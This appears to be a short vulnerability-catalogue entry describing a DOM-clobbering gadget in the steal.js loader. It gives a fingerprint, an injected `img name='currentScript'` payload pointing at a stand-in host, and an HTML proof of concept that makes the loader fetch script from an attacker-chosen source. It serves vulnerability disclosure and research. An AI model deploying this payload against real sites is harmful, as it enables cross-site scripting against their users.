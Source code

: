 ## steal

### Meta

+ Library: steal
+ Stars: 1.4K
+ Version: v2.3.0
+ Fingerprint: `typeof window.steal !== 'undefined' && typeof window.steal.loader === 'object'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk
+ TheThing: None

### Library

Built locally

https://github.com/stealjs/steal

### Vulnerable Code Snippet

too complicated.

## PoC

after running `npm install`

```html
<!doctype html>
<html>
  <body>
    <image name="currentScript" src="http://localhost:8000/"></image>
    <script src="./node_modules/steal/steal.js" main></script>
  </body>
</html>
```
